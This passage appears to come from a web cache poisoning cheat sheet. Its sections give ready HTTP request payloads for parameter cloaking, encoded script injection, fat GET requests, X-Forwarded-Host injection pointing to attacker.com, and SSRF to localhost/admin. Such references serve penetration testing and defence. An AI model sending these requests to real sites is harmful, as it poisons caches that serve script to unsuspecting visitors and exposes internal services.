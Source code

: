 ### 3.3 Cache Parameter Cloaking

Exploit: Bypass parameter filtering using parsing quirks.
```html
GET /?utm_content=123?param=alert(1) HTTP/1.1
Host: example.com
```
The cache ignores `utm_content`, but the server treats `param=alert(1)` as a valid parameter.

### 3.4 Normalized Cache Keys

Exploit: Use URL-encoded payloads to bypass sanitization.
```html
GET /?param=%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: example.com
```
If the cache normalizes the key, the decoded payload is stored and executed.

### 3.5 Fat GET Requests

Exploit: Poison caches using GET requests with bodies.
```html
GET /?param=innocent HTTP/1.1
Host: example.com
Content-Length: 13
X-HTTP-Method-Override: POST

param=malicious
```
The cache key uses the request line, but the server processes the body.

### 3.6 Cache Poisoning via HTTP Header Injection

Exploit: Inject headers affecting the cache behavior.
```html
GET / HTTP/1.1
Host: example.com
X-Forwarded-Host: attacker.com
```
If the cache stores responses based on `X-Forwarded-Host`, users receive poisoned content from `attacker.com`.

### 3.7 Cache Poisoning with SSRF

Exploit: Inject requests leading to internal services.
```html
GET /?url=http://localhost/admin HTTP/1.1
Host: example.com
```
If the cache stores responses from internal URLs, attackers can retrieve internal data.

### 4. Poison Internal Caches

Objective: Exploit application-level caches that store reusable fragments.
